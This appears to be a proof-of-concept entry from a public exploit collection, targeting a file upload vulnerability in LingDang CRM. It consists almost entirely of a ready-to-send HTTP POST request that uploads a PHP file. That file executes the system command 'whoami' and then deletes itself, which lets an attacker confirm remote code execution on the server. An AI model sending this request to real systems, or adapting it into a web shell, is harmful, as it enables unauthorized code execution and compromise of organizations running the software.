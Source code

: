 # ldcrm_uploadfile_fileupload

from： https://github.com/wy876/POC/blob/main/%E7%81%B5%E5%BD%93CRM/%E7%81%B5%E5%BD%93CRM%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3uploadfile%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md

product: 灵当CRM

```
POST /crm/weixinmp/index.php?userid=123&module=Upload&usid=1&action=uploadfile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close

file_info={"name":"1.php"}&<?php system("whoami");unlink(__FILE__);?>
```
